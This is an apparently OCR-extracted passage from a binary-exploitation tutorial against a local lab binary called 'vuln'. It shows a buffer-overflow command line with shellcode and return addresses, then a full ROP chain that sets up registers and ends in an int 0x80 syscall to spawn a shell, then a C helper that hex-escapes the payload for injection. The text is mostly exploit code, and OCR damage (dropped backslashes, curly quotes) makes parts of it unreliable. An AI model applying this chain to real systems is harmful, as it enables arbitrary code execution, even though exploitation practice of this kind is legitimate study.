 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0xf7e4a686) # mov dword ptr \[esi\], edx ; pop ebx ; pop esi ; ret  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0xf7dddeb5) # pop ebx ; ret  
p += pack(‘<I’, 0xf7f9b004) # @ .data  
p += pack(‘<I’, 0xf7e01e03) # pop ecx ; ret  
p += pack(‘<I’, 0xf7f9b00c) # @ .data + 8  
p += pack(‘<I’, 0xf7dc5aae) # pop edx ; ret  
p += pack(‘<I’, 0xf7f9b00c) # @ .data + 8  
p += pack(‘<I’, 0xf7df321f) # xor eax, eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dc6d37) # int 0x80  
At the end I add a `print p` and redirect the output to `a.txt`.  
I write a program in C  

    #include <stdio.h>
    #include <ctype.h>
    #include <stdlib.h>

void panic(char\* s)  
{  
perror(s);  
exit(-1);  
}

int main(int argc, char\*\* argv)  
{  
unsigned char c;  
FILE\* f;

if(argc < 2) return 1;

f = fopen(argv\[1\], “rb”);  
if(!f) panic(“Error at fopen()”);  
while(1)  
{  
c = fgetc(f);  
if(feof(f)) break;  
if(isalnum(c)) putchar(c);  
else  
printf(“\\x%02x”, c);  
}  
putchar(‘n’);  
return 0;  
}

I run on `a.txt` and get hexadecimal values ​​payload appropriately to inject in the same manner as has been done. And in the future we will exploit in python, when the complexity of the required change.
```